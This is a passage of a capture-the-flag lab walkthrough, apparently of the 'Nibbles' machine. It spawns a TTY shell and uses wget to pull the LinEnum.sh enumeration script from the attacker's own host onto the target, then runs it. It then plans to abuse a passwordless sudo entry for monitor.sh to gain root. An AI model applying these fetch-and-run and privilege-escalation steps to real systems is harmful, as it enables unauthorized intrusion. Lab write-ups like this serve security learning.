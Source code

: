 ```console
privileged_cache.2177
tools
upc.sh
user.txt
```
Let's try to spawn a __TTY shell__ here from the "[__Netsec list__](https://netsec.ws/?p=337)"

```console
python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/home/nibbler/personal/stuff$ 

```
Next, we try to get the __LinEnum.sh__ file into our machine for that first I will run a PHP server in my local machine folder

```console
root@kali:~/Desktop/PrivEscalation Enum# php -S 10.10.15.47:444
PHP 7.2.4-1 Development Server started at Wed Jun  6 18:59:11 2018
Listening on http://10.10.15.47:444
Document root is /root/Desktop/PrivEscalation Enum
Press Ctrl-C to quit.
[Wed Jun  6 19:00:04 2018] 10.10.10.75:35560 [200]: /LinEnum.sh

```
Let's try to transfer the file into our machine using wget

```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ wget http://10.10.15.47:444/LinEnum.sh -O /tmp/Linenum.sh
<er/personal/stuff$ wget http://10.10.15.47:444/LinEnum.sh -O /tmp/Linenum.sh
--2018-06-06 10:14:59--  http://10.10.15.47:444/LinEnum.sh
Connecting to 10.10.15.47:444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42150 (41K) [application/x-sh]
Saving to: '/tmp/Linenum.sh'

/tmp/Linenum.sh     100%[===================>]  41.16K  43.8KB/s    in 0.9s    

```
so we go the file inside our machine
```console
nibbler@Nibbles:/tmp$ chmod 777 Linenum.sh
nibbler@Nibbles:/tmp$ sh ./Linenum.sh
```
On running Linux enum we got the following

```console
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

so let's try to cd into that folder and see

```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
nibbler@Nibbles:/home/nibbler/personal/stuff$ monitor.sh

```
Now let's change the contents inside the monitor.sh and try to run it as the root

